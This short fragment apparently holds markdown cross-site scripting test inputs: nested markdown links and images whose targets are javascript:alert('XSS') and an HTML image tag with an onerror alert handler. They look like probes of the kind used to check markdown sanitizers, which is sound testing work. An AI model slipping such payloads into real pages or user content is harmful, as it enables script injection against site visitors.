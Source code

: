 [![](https://example.com)](javascript:alert('XSS'))<img src=x onerror=alert('XSS')>

[[![](https://example.com)](https://example.com)](javascript:alert('XSS'))

![[![](https://example.com)](https://example.com)<img src=x onerror=alert('XSS')>](https://example.com)